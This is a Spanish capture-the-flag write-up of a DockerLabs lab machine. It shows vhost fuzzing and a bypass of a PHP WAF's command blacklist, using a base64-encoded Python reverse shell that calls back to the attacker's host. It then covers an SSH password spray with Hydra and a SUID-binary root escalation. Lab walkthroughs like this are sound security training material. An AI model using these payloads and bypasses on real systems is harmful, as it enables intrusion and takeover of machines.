

# Internal

## Resumen Ejecutivo

| Máquina | Autor | Categoría | Plataforma |
| :--- | :--- | :--- | :--- |
| Internal | buda-sys | Fácil | DockerLabs |

**Resumen:** La máquina Internal expone una superficie de ataque engañosamente sofisticada construida alrededor de una aplicación web PHP personalizada llamada SysVault Backup Manager, accesible mediante enumeración de hosts virtuales. La aplicación presentaba un "Directory Inspector" que pasaba la entrada del usuario directamente a una llamada `shell_exec()`, creando una vulnerabilidad clásica de inyección de comandos del sistema operativo. Sin embargo, un sistema de WAF y lista negra en capas se interponía entre el atacante y la ejecución de código: los filtros a nivel de operador bloqueaban puntos y comas, dobles ampersands, backticks y saltos de línea, mientras que una lista negra con expresiones regulares de límite de palabra prohibía utilidades de shell comunes incluyendo `id`, `cat`, `bash`, `sh` y `python`. La clave estaba en que `python3` no estaba bloqueado porque el patrón regex `\bpython\b` no coincide con `python3` debido a que el dígito final rompe el límite de palabra. Esto permitió una cadena de bypass novedosa: codificar en base64 un payload de reverse shell en Python y canalizarlo a través de `printf | base64 -d | python3`, que el WAF evaluó como una cadena inerte de caracteres alfanuméricos. Una vez establecido un punto de apoyo como `www-data`, la enumeración post-explotación reveló una lista de contraseñas legible en `/opt/.vault_pass.txt` perteneciente al grupo `vault`. Un ataque de spray de credenciales con Hydra identificó la contraseña SSH correcta, otorgando acceso como el usuario `vault`. La escalada de privilegios a root se logró trivialmente ejecutando el binario SUID `/usr/local/bin/vaultctl`, que era propiedad de root pero estaba restringido a miembros del grupo `vault` e internamente invocaba `setuid(0)` seguido de un spawn de shell de root.

---

## Reconocimiento

La máquina fue desplegada y su dirección IP almacenada en una variable:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ sudo bash auto_deploy.sh internal.tar   

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ip=172.17.0.2           
                                                                                  
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-22 18:53 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:66:aa:77:67:23:c3:15:5a:fb:3d:02:08:71:c7:9f (ECDSA)
|_  256 82:a2:e0:d9:84:da:39:bf:da:06:51:b8:3b:32:9a:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://internal.dl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveló únicamente dos puertos abiertos: SSH en el 22 y Apache en el 80. El servidor HTTP redirigía inmediatamente al nombre de host virtual `internal.dl`, que fue añadido al archivo de hosts local:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ echo '172.17.0.2 internal.dl' | sudo tee -a /etc/hosts
```

---

## Descubrimiento de Hosts Virtuales

Se realizó fuzzing de hosts virtuales usando `ffuf` con la cabecera `Host`:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ffuf -u "http://internal.dl/" -H "Host: FUZZ.internal.dl" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.dl/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.internal.dl
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

backup                  [Status: 200, Size: 22554, Words: 4271, Lines: 812, Duration: 149ms]
Backup                  [Status: 200, Size: 22554, Words: 4271, Lines: 812, Duration: 7ms]
:: Progress: [220559/220559] :: Job [1/1] :: 10000 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
                                                                                                                           
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ echo '172.17.0.2 backup.internal.dl' | sudo tee -a /etc/hosts
172.17.0.2 backup.internal.dl
```

Se descubrió el subdominio `backup.internal.dl` y fue resuelto hacia el objetivo. Al navegar a él se reveló el SysVault Backup Manager, una aplicación web interna con un campo de entrada "Directory Inspector" etiquetado prominentemente con el badge "SHELL EXEC".



---

## Análisis de la Aplicación Web y Bypass del WAF

La lectura del código fuente PHP de la aplicación (obtenido tras ganar acceso) reveló el sumidero vulnerable y la lógica del WAF:

```php
// WAF: bloquea operadores
$blocked_operators = [';', '&&', '||', '`', '\n'];

// Lista negra: bloquea comandos usando regex de LÍMITE DE PALABRA
$blocked_commands = [
    'whoami', 'id', 'ls', 'pwd', 'cat', 'wget', 'curl',
    'bash', 'sh', 'python', 'perl', 'nc', 'netcat', 'find',
    'echo', 'rm', 'cp', 'mv', 'chmod', 'chown'
];
foreach ($blocked_commands as $cmd) {
    if (preg_match('/\b' . preg_quote($cmd, '/') . '\b/i', $input)) { /* bloquear */ }
}

// SUMIDERO VULNERABLE
$cmd = "ls -lah " . $dir . " 2>&1";
$output = shell_exec($cmd . ' & echo ok');
```

Se identificaron dos debilidades críticas. Primero, el pipe simple `|` y el operador de fondo `&` no están bloqueados, solo sus variantes dobles `&&` y `||`. Segundo, la regex de límite de palabra `\bpython\b` no coincide con la cadena `python3` porque el dígito `3` es tratado como un carácter de palabra, eliminando el límite entre `python` y `3`. Esto significaba que `python3` pasaba la lista negra completamente.

La cadena de bypass se construyó de la siguiente manera: un script Python de reverse shell fue codificado en base64 localmente, luego entregado al Directory Inspector envuelto en un subshell `$(printf "..." | base64 -d | python3)`. El WAF evaluó esto como una cadena de caracteres base64 alfanuméricos inertes y lo permitió pasar.

---

## Acceso Inicial

Se inició un listener netcat en la máquina atacante:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Se generó el payload de reverse shell:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ echo -e 'import socket,subprocess\ns=socket.socket()\ns.connect(("172.17.0.1",4444))\np=subprocess.Popen(["/bin/bash","-i"],stdin=s,stdout=s,stderr=s)\np.wait()' | base64 -w0
aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzCnM9c29ja2V0LnNvY2tldCgpCnMuY29ubmVjdCgoIjE3Mi4xNy4wLjEiLDQ0NDQpKQpwPXN1YnByb2Nlc3MuUG9wZW4oWyIvYmluL2Jhc2giLCItaSJdLHN0ZGluPXMsc3Rkb3V0PXMsc3RkZXJyPXMpCnAud2FpdCgpCg==
```

El siguiente payload fue enviado al campo de entrada del Directory Inspector:

```bash
$(printf "aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzCnM9c29ja2V0LnNvY2tldCgpCnMuY29ubmVjdCgoIjE3Mi4xNy4wLjEiLDQ0NDQpKQpwPXN1YnByb2Nlc3MuUG9wZW4oWyIvYmluL2Jhc2giLCItaSJdLHN0ZGluPXMsc3Rkb3V0PXMsc3RkZXJyPXMpCnAud2FpdCgpCg==" | base64 -d | python3)
```

La conexión fue establecida y la shell fue estabilizada:

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 39786
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d02165f12cd9:/var/www/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@d02165f12cd9:/var/www/admin$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@d02165f12cd9:/var/www/admin$ export TERM=xterm
www-data@d02165f12cd9:/var/www/admin$ export SHELL=/bin/bash
www-data@d02165f12cd9:/var/www/admin$ stty rows 80 cols 150
```

Se estableció un punto de apoyo como `www-data`.

---

## Enumeración Post-Explotación

### Descubrimiento de Binarios SUID

```bash
www-data@d02165f12cd9:/$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/local/bin/vaultctl
/usr/bin/chsh
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
www-data@d02165f12cd9:/$ ls -la /usr/local/bin/vaultctl 
-rwsr-xr-- 1 root vault 16136 Feb 25 15:00 /usr/local/bin/vaultctl
```

El binario `vaultctl` destacó inmediatamente: propiedad de root con el bit SUID activado, pero ejecutable únicamente por miembros del grupo `vault`. La ejecución directa como `www-data` no era posible, estableciendo a `vault` como el usuario pivote necesario.

### Descubrimiento de Credenciales

```bash
www-data@d02165f12cd9:/$ find / -user vault -readable 2>/dev/null
/opt/vaultlibs/libbackup.so
www-data@d02165f12cd9:/$ ls -la /opt/vaultlibs/libbackup.so 
-rwxrwxr-x 1 vault vault 15656 Feb 26 10:50 /opt/vaultlibs/libbackup.so
www-data@d02165f12cd9:/$ which wc
/usr/bin/wc
www-data@d02165f12cd9:/$ wc /opt/vaultlibs/libbackup.so 
    3    46 15656 /opt/vaultlibs/libbackup.so
```

```bash
www-data@d02165f12cd9:/$ find / -group vault -readable 2>/dev/null
/usr/local/bin/vaultctl
/opt/vaultlibs
/opt/vaultlibs/libbackup.so
/opt/.vault_pass.txt
```

Se encontró una lista de contraseñas oculta accesible para el grupo `vault` en `/opt/.vault_pass.txt`:

```bash
www-data@d02165f12cd9:/$ cat /opt/.vault_pass.txt 
X#9mK$vL2@pQ
nR7!wZ3&eT5*
Hy6@jP2#mX8$
qB4!nW9&kL3@
Vz8#cR5$xJ2!
mT3@bY7!pN6&
Kw5$hM2#fQ9@
eL8!vX4&nB6*
Rj2@cT7#wP5$
uN9&mK3!xZ4@
Fb6#yH8$qW2!
sG4@tL5&rJ9*
Dp7!kM3#bX6@
aC2$vN8!wQ5&
Xt9@eR4#hL7$
oW3&jB6!mT2#
Yk8$pZ5@cN4!
iH2#xQ9&fR7*
Mn5!bL3$vW8@
Gq4@tX7#eK2&
```

La lista fue guardada localmente y se realizó un ataque de spray de credenciales contra SSH con Hydra:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ vim pass.txt 

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ hydra -l vault -P pass.txt ssh://172.17.0.2
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-07-22 20:23:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:1/p:20), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: vault   password: Yk8$pZ5@cN4!
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-07-22 20:23:44
```

---

## Escalada de Privilegios: Abuso de Binario SUID

Se realizó el login SSH como `vault`:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ssh vault@$ip
vault@172.17.0.2's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 26 10:55:44 2026 from 172.17.0.1
vault@d02165f12cd9:~$ id;whoami;hostname
uid=1001(vault) gid=1001(vault) groups=1001(vault),100(users)
vault
d02165f12cd9
vault@d02165f12cd9:~$ ls -la
total 32
drwxr-x--- 1 vault    vault 4096 Feb 25 19:13 .
drwxr-xr-x 1 root     root  4096 Feb 25 13:22 ..
lrwxrwxrwx 1 root     root     9 Feb 25 19:13 .bash_history -> /dev/null
-rw-r--r-- 1 vault    vault  220 Feb 25 13:22 .bash_logout
-rw-r--r-- 1 vault    vault 3771 Feb 25 13:22 .bashrc
drwx------ 2 vault    vault 4096 Feb 25 15:04 .cache
drwxrwxr-x 3 vault    vault 4096 Feb 25 15:04 .local
-rw-r--r-- 1 vault    vault  807 Feb 25 13:22 .profile
-rw-r--r-- 1 www-data vault 1787 Feb 25 15:21 flag.txt
```

Como `vault` pertenece al grupo `vault`, el binario SUID pudo ser ejecutado directamente:

```bash
vault@d02165f12cd9:~$ vaultctl
root@d02165f12cd9:~# id
uid=0(root) gid=0(root) groups=0(root),100(users),1001(vault)
root@d02165f12cd9:~# su -
root@d02165f12cd9:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
d02165f12cd9
```

El binario invocó internamente `setuid(0)` y lanzó una shell de root. Se logró el compromiso total del sistema.

---

## Flag

```bash
vault@d02165f12cd9:~$ cat flag.txt 

 ███████╗██╗   ██╗███████╗██╗   ██╗ █████╗ ██╗   ████████╗
 ██╔════╝╚██╗ ██╔╝██╔════╝██║   ██║██╔══██╗██║   ╚══██╔══╝
 ███████╗ ╚████╔╝ ███████╗██║   ██║███████║██║      ██║   
 ╚════██║  ╚██╔╝  ╚════██║╚██╗ ██╔╝██╔══██║██║      ██║   
 ███████║   ██║   ███████║ ╚████╔╝ ██║  ██║███████╗ ██║   
 ╚══════╝   ╚═╝   ╚══════╝  ╚═══╝  ╚═╝  ╚═╝╚══════╝ ╚═╝  

  ----------------------------------------
  🏁  CHALLENGE FLAG — SysVault Backup Lab
  ----------------------------------------

  FLAG{CMD_1NJ3CT10N_M4ST3R_W4F_BYP4SS3D}

  ----------------------------------------
  Techniques required to reach this file:
  ----------------------------------------

  [✓] 1. Bypass WAF operator filter
          → Used newline (%7C) instead of ; && ||

  [✓] 2. Bypass space blacklist
          → Used $IFS  instead of space

  [✓] 3. Bypass command blacklist
          → Used quotes: c'a't, or base64 encoding
            or reversed command: $(rev<<<'tac')

  [✓] 4. Read this file
          → /flag.txt

  ----------------------------------------
  Congratulations! You have demonstrated:
  - WAF evasion
  - Blacklist bypass (spaces, commands, operators)
  - OS command injection via shell_exec()
  ----------------------------------------
```

---

## Resumen de la Cadena de Ataque

1. **Reconocimiento**: El escaneo completo de puertos identificó SSH y Apache. Nmap reveló una redirección de host virtual a `internal.dl`.
2. **Descubrimiento de Host Virtual**: El fuzzing de cabeceras `Host` con `ffuf` descubrió `backup.internal.dl`, que alojaba la aplicación SysVault Backup Manager.
3. **Análisis del WAF**: La revisión del código fuente reveló que la regex de límite de palabra `\bpython\b` no coincide con `python3`, el pipe simple `|` y el operador de fondo `&` están permitidos, y la entrada del usuario llega a `shell_exec()` sin sanitizar.
4. **Explotación**: Un reverse shell en Python fue codificado en base64 y entregado mediante `$(printf "BASE64" | base64 -d | python3)`, superando todas las verificaciones del WAF. Se estableció un punto de apoyo como `www-data`.
5. **Descubrimiento de Credenciales**: La enumeración post-explotación encontró `/opt/.vault_pass.txt` legible por el grupo `vault`. El spray de credenciales con Hydra identificó `vault:Yk8$pZ5@cN4!`.
6. **Escalada de Privilegios**: El binario SUID `/usr/local/bin/vaultctl`, restringido al grupo `vault` y propiedad de root, fue ejecutado y lanzó una shell de root mediante `setuid(0)`.
